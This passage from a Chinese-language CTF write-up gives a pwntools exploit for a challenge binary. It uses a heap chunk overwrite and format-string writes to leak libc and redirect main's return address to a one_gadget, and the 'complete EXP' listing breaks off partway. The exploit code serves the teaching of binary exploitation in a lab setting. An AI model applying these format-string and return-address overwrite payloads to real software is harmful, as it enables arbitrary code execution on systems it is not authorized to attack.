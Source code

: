 3. 再次利用格式化字符串，修改main函数返回值到one_gadget（和原本的值，只有低3个字节不一样，分两次写即可）:

   ```python
   payload1 = b"a"*0x88+p64(0x151)
   p.sendline(b"1")
   p.sendlineafter(b':\n',payload1)
   free(4)
   
   one_gadget_addr2 = (((one_gadget_addr>>8)&0xffff) - (one_gadget_addr&0xff))
   success("one_gadget_addr2==>"+hex(one_gadget_addr2))
   
   payload1 = b'%' + int.to_bytes(one_gadget_addr&0xff) +b"c%13hhn%" + str(one_gadget_addr2).encode() +b"c%14hn"
   payload1 += b"M"*(0x74-len(payload1))
   edit(1,payload1)
   
   
   payload3 = b'5'+b'\x00'*7 + p64(ret_addr) + p64(ret_addr+1)    #这里修改main函数的返回地址指向onegadget
   submit(payload3)
   
   # p.sendline(b"cat flag")
   p.interactive()
   ```

   ![image-20240717204519649](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407172045887.png)

4. 完整EXP：

   ```py
   from pwn import *
   context(os='linux', arch='i386', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node4.anna.nssctf.cn",28343)
   p = process("./pwn") 
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
   elf = ELF("./pwn")
   
   def edit(index,content):
       p.sendlineafter(b't\n',str(index).encode())
       p.sendlineafter(b':\n',content)
   
   def free(index):
       p.sendlineafter(b't\n',str(index).encode())
   
   def submit(payload):
       p.sendlineafter(b't\n',payload)
   one=[0x4f2be,0x4f2c5,0x4f322,0x10a38c]
   
   one_gadget = one[3]
   #   
   main_addr = 0x400a39
   fini_addr = 0x6011b8                #内容为0x400830
   
   payload1 = b"a"*0x88+p64(0x151)
   edit(1,payload1)
   free(4)
   
   payload1 = b'%2617c%13$hn' 
   payload1 += b".%14$s"       #泄漏libc
   payload1 += b",%33$p"       #泄漏第二次的main函数返回值存放的地址
   payload1 += b"M"*(0x74-len(payload1))
   ```